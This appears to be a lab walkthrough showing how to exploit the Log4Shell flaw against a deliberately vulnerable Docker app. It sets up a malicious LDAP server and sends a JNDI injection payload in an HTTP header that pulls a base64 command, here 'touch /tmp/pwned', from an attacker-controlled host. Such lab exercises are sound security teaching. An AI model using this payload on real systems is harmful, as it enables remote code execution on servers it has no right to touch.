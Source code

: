 Steps:
- Connect to the machine
- Test the network connectivity before you move forward:
````
curl http://ipaddr:8080
````
- Set up the malicious LDAP server
	- Start a new screen session `screen -S ldap`
	````
	sudo docker run --name log4jldapserver -p 1389:1389 -p 8888:8888 ppfles/log4shell-ldap-server
	````
- Send the malicious payload:
````
curl ipaddr:8080 -H 'X-Api-Version: ${jndi:ldap://my_ip_addr:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZA==}'
````
NOTES:
- the -H option modifies one of the HTTP header files
- this specific application is logging the X-Api-Version field, so that's where you can inject the malicious code
- the string will start with jndi (Java Naming and Directory Interface). You are telling the app to use jndi, which then allows you to make a request with another protocol, in this case LDAP
- the /Basic/Coimmand/... is a base 64 command that is equal to `touch /tmp/pwned`

- Now cvheck the LDAP server to see its output. Connect back to that screen session with `screen -r ldap`
![](./img/screen%20output.png)
- Now, if you execute again the `sudo docker exec vulnapp2 ls /tmp` there must be a new file called pwned